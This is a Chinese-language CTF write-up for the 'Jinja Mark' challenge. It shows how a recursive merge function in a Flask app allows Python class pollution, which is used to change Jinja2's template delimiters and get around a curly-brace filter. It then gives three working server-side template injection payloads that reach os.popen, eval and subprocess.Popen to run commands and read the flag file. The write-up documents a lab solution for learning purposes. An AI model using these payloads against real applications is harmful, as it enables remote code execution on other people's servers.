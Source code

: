 ### Jinja Mark



```
你不会以为这里真的有flag吧？

想要flag的话先猜猜我的幸运数字

用POST方式把 lucky_number 告诉我吧，只有四位数哦

BLACKLIST_IN_index = ['{','}']
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
@app.route('/magic',methods=['POST', 'GET'])
def pollute():
    if request.method == 'POST':
        if request.is_json:
            merge(json.loads(request.data), instance)
            return "这个魔术还行吧"
        else:
            return "我要json的魔术"
    return "记得用POST方法把魔术交上来"
```



代码里面有merge函数，基本存在python原型链污染了，结合开头ban了左右花括号，我们可以尝试利用原型链污染来修改jinja2模版的属性，直接将变量取值方式改为«»从而绕过花括号的过滤

将以下json数据传入经json.loads后成功修改

| ` 1 2 3 4 5 6 7 8 9 10 11 12 ` | `{  "__init__": {    "__globals__": {      "app": {        "jinja_env": {          "variable_start_string": "<<",          "variable_end_string": ">>"        }      }    }  } } ` |
| ------------------------------ | ------------------------------------------------------------ |
|                                |                                                              |

Copy

回到index目录下进行常规ssti即可

这里我尝试了几个模块，其实方法都差不多，不过subprocess.Popen这个类本身就能够执行命令

1. warnings.catch_warnings

| `1 ` | `<<''.__class__.__mro__[1].__subclasses__()[222].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")>> ` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

Copy

1. subprocess.Popen

| `1 ` | `<<[].__class__.__mro__[1].__subclasses__()[351]('cat /flag',shell=True,stdout=-1).communicate()[0].strip()>> ` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

Copy

1. os._wrap_close

| `1 ` | `<<[].__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('id').read()>> ` |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

Copy